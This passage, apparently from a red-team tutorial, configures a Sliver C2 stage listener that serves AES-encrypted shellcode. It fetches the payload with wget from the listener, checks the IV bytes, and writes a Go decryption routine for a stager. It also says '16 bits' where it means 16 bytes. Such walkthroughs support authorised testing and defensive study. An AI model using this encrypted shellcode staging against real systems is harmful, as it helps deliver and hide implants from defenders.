 ## AES support

Start stage-listener with AES encryption

- `--aes-encrypt-key` is to encrypt the shellcode
- `--aes-encrypt-iv` is for obfuscation, note: `iv` will be the first 16 bits in front of the http body. Therefore we only need to remember the `key` and shellcode will be behind the `iv`

```
sliver > stage-listener -u https://192.168.122.62:443 -p https-shellcode --aes-encrypt-key abcdefghijklmnop --aes-encrypt-iv AAAAAAAAAAAAAAAA

[*] Sliver name for profile https-shellcode: INNOVATIVE_ROUGH
[*] Job 4 (https) started
[*] AES KEY: abcdefghijklmnop
[*] AES IV: AAAAAAAAAAAAAAAA
```

Let's download the shellcode from stager and validate the first 16bits is truely our `iv` (16 As)

```
# wget --no-check-certificate https://192.168.122.62/c.woff .
# head --bytes 72 c.woff | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: d181 a075 fd31 c753 1774 d30b 3e93 f691  ...u.1.S.t..>...
00000020: e23c f099 7ad8 0743 2e59 5a4f 16db 2ebe  .<..z..C.YZO....
00000030: e907 9227 5572 d4de 88ad e655 15d7 529d  ...'Ur.....U..R.
00000040: 0b87 c0eb 2c4d 1e4f                      ....,M.O
```

What's left for us is to add Decryption function, get `iv` and encrypted shellcode
### Decryption 

On golang's official doc, it provides us with [example code](https://pkg.go.dev/crypto/cipher#NewCBCEncrypter), with a little bit simplify, we create our `aes.go` in `run` folder as follows

``` go
package run

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
)

func Decrypt(data, key, iv []byte) []byte {
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}
	fmt.Println("blocksize: ", block.BlockSize())
	fmt.Println("ivsize: ", len(iv))
	mode := cipher.NewCBCDecrypter(block, iv)
	mode.CryptBlocks(data, data)
	return data
}
```
